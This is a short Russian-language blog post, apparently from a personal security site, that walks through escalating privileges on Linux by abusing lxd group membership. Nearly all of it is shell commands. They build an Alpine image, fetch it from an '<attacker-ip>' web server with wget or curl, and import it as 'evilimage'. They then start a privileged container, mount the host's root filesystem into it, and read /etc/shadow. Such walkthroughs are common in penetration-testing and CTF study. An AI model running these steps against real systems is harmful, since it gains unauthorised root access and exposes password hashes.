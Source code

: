 # From LXC to Etc



Использование чистого lxc в природе сейчас встретишь не часто, но в некоторых дистрибутивах он есть, например в Ubuntu 20.04. 
И раз у нас есть такая крутая штука, то странно ей не воспользоваться.  
Вообще это довольно интересный и своеобразный вектор атаки, и пишут про него не особо часто (ну да, ведь везде docker).  

&lt;!--more--&gt;

## Собираем образ на своей машине
```shell
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sudo ./build-alpine -a i686
```

## Скачиваем файл
Полученный файл можно куда-то выгрузить, а можно раздать с веб-сервера, например так:
```shell
python3 -m http.server 8080
```

Забираем файл так:
```shell
wget http://&lt;attacker-ip&gt;:8080/alpine-v3.16-i686-20220603_1113.tar.gz
```

Или так:
```shell
curl http://&lt;attacker-ip&gt;:8080/alpine-v3.16-i686-20220603_1113.tar.gz --output alpine-v3.16-i686-20220603_1113.tar.gz
```

Как альтернативный вариант, можем использовать сразу образ из репозитория:
```shell
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

## Импортируем образ
```
lxc image import ./alpine*.tar.gz --alias evilimage
```

## Предварительно проверяем, используется ли lxc
```
ip a | grep lxd
lxc list
lxc image list
```

И если ничего нет, то запускаем начальную настройку:
```shell
lxd init
```

## Запускаем образ
```shell
lxc init evilimage evilcontainer -c security.privileged=true
```

## Монтируем /root в образ
```shell
lxc config device add evilcontainer victimdevice disk source=/ path=/mnt/root recursive=true
```

## Запускаем и радуемся результату
```shell
lxc start evilcontainer
lxc exec evilcontainer /bin/sh
cat /mnt/root/etc/shadow
```

### Reference
[lxd/lxc Group - Privilege escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)  
[Linux Privilege Escalation – Exploiting the LXC/LXD Groups](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/)



---

> Author:   
> URL: http://localhost:1313/posts/from-lxc-to-etc/  

